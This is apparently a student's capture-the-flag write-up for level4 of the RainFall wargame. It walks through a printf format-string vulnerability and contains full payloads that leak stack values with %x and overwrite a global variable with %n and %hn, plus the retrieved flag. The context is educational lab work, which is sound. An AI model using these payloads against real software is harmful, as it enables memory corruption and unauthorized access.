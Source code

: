 # level4

### First analysis

This exercice is probably going to be way more straightforward. It is almost the complete same as the past exercise, with some slight changes. Let's review them:

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

So as we can see there are 2 major changes from level3:
- printf is now in a different function than where fgets is called. For now I don't see how it cound make a difference and how it could have stopped us from exploiting level3 but we will probably find a reason to that.
- m now has to be equal to an address instead of an int. Normally in C, pointers (addresses) are int *, so it isn't that much of a change compared from level3, however if we transform the hex value in decimal 0x1025544 = 16930116. We easily understand that it is going to be hard to store a value of 16930116 using the same method as level3.

Also we can notice that we won't have a shell this time but just the password printed.

First thing, let's find the address of m and analyze the stack.

m address (using same methods as in level3) is 0x08049810.

Now for the stack:

```sh
level4@RainFall:~$ echo $(python -c "print('AAAABBBB ' + '%x ' * 25)") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
AAAABBBB b7ff26b0 bffff764 b7fd0ff4 0 0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0 41414141 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
```
As far as we know, what we are probably searching for is the beginning of the buffer, and maybe the content in between to manipulate an address or something (?), so we are gonna just analyze what is before the buffer that starts with the "41414141 42424242", the rest is just the "%x " in hexadecimal code. So as we can see the stack is slithly different this time, we have:
- 3 addresses probably from the stack or close (stack starts at bfffe000 so the addresses starting by b7 are more strange)
- 2 null values
- 3 more addresses, 2 from the stack and 1 from the code section probably.
- The buffer size, 200 in hex, 512 in decimal.
- 2 addresses from the stack or close.
- The buffer itself.

The format looks the same at the end, which makes sense, printf is still used, it is just called in another function, that's why we can find an address from the code section, probably the return address of p() to n(), and more saved frame pointer, old values of EBP etc (values starting by 0xb) that is necessary for the stack to work properly.

The first idea to try which may be stupid, is to write 16930116 chars long buffer so %n print this number into m, which would be interpreted as an address by the stack, this address being 0x1025544, the address of m.

Obviously the buffer is 512 chars long maximum (in fgets) but it is not a problem since we can use the synthax of printf to do that. The %08x format allows us to say "even if the %x is 200 at this address, print it with 8 chars, so 00000200". By adding longer padding requests to printf, we could reach this huge number. With simply %8x, it would print spaces instead of 0. (easier to print for a terminal).

```sh
level4@RainFall:~$ echo $(python -c "print('\x10\x98\x04\x08' + '%x ' * 4 + '%8x ' + '%x ' * 6)") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
b7ff26b0 bffff764 b7fd0ff4 0        0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0
```

Here we crafted a little payload with the address of m at the beginning, '%x ' * 4, to print 4 addresses, stopping to one of the two "0" values, so it is easier to calculate padding on it, we print this 0 value with %8x, as you can see the presence of spaces. And finally we print again "%x " * 6, where we find the last address before the buffer storage space. Meaning the stack pointer for printf is now pointer directly in the address of m, We just have to add a "%n" at the end, and the result will be written in m. Let's check if it works:

```sh
level4@RainFall:~$ echo $(python -c "print('\x10\x98\x04\x08' + '%x ' * 4 + '%8x ' + '%x ' * 6 + '%n')") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
b7ff26b0 bffff764 b7fd0ff4 0        0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0 
^C
level4@RainFall:~$ 
```

First thing, when adding %n, the program doesn't crash, which means it finds an address that it can access, and can writes in. That's a good news, the program would segfault if it wasn't working. Let's continue.

```sh
0x08048456 in n ()
(gdb) p m
$1 = 90

# change the buffer

0x08048456 in p ()
(gdb) p m
$1 = 182
```

When checking the value of m with different payloads in gdb with the history function, we can see that m changes according to our payload size. Another good news. 

Now let's try to input 16.930.116 characters inside of it.

```sh
level4@RainFall:~$ echo $(python -c "print('\x10\x98\x04\x08' + '%x ' * 4 + '%16930034x ' + '%x ' * 6 + '%n')") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4

[...] # After 16 millions spaces

0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0 
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

I honestly thought the terminal would crash but apparently printing spaces really isn't much for a terminal. We got almost instantly the flag !

We could have optimized that by writing in the high bytes (the 4 firts ones) and the lower bytes after, which would reduce considerably 

### Optimization

Even if it worked, we can easily imagine that in a old or slow machine this would have taken way more time, maybe too much for certains machine. It is a very hypothetical scenario even more nowadays so let's say it's more an excuse to go deeper into it and find how we could have done it without printing almost 17 millions characters.

For that we made a way lighter payload that is printing approcimately 22k characters instead of 16.9 millions.

This is the payload, for more explanation on it (involves maths and is quite hard to understand) you can check Resources/explanation.md

```sh
level4@RainFall:~$ echo $(python -c "print('\x12\x98\x04\x08' + 'AAAA' +'\x10\x98\x04\x08' + '%x' * 10 + '%186x' + '%hn' + '%21570x' + '%hn')") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
AAAAb7ff26b0bffff764b7fd0ff400bffff728804848dbffff520200b7fd1ac0

[...]  # After 20k spaces

41414141
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Important doc

[Exploiting FSV](https://axcheron.github.io/exploit-101-format-strings/)
